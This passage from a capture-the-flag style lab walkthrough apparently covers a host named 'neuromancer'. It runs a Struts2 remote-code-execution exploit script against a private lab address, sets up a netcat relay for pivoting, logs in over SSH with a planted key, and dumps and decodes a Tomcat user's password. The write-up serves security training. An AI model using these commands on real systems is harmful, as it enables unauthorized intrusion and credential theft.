 We grant read and write permissions to the owner of the authorized_keys file.

```console
root@kali:~$ python 41570.py http://192.168.56.104:8080/struts2_2.3.15.1-showcase/showcase.action "chmod 600 /home/ta/.ssh/authorized_keys"
```

We execute the following commands to set up a netcat relay to pivot as shown previously.

```console
root@straylight:/root# mknod /tmp/backpipe2 p
root@straylight:/root# nc -lp 34483 < /tmp/backpipe2 | nc 192.168.56.104 34483 > /tmp/backpipe2
```

We access via SSH as user ta.

```console
root@kali:~$ ssh -l ta 192.168.56.104 -p 34483 -i id_rsa
The authenticity of host '[192.168.56.104]:34483 ([192.168.56.104]:34483)' can't be established.
ECDSA key fingerprint is SHA256:oUL2wjfAFRqayjqOgc79xVYeSqvD92zqaV+4udNxJrw.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[192.168.56.104]:34483' (ECDSA) to the list of known hosts.
 ----------------------------------------------------------------
|                Neuromancer Secure Remote Access                |
| UNAUTHORIZED ACCESS will be investigated by the Turing Police  |
 ----------------------------------------------------------------
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-116-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

94 packages can be updated.
44 updates are security updates.


Last login: Tue Jul  3 21:53:25 2018
ta@neuromancer:~$
```

We execute the find command to locate the tomcat-users.xml file.

```console
ta@neuromancer:/$ find / -name 'tomcat-users.xml' 2>/dev/null | xargs cat
...
<user username="Lady3Jane" password="&gt;&#33;&#88;&#120;&#51;&#74;&#97;&#110;&#101;&#120;&#88;&#33;&lt;" roles="manager-gui"/>
...
```

As we can see, Lady3Jane's password is encoded in HTML, we decode to plain text using the hURL utility.

```console
root@kali:~$ hURL -h "&gt;&#33;&#88;&#120;&#51;&#74;&#97;&#110;&#101;&#120;&#88;&#33;&lt;"

Original     :: &gt;&#33;&#88;&#120;&#51;&#74;&#97;&#110;&#101;&#120;&#88;&#33;&lt;
HTML DEcoded :: >!Xx3JanexX!<
```
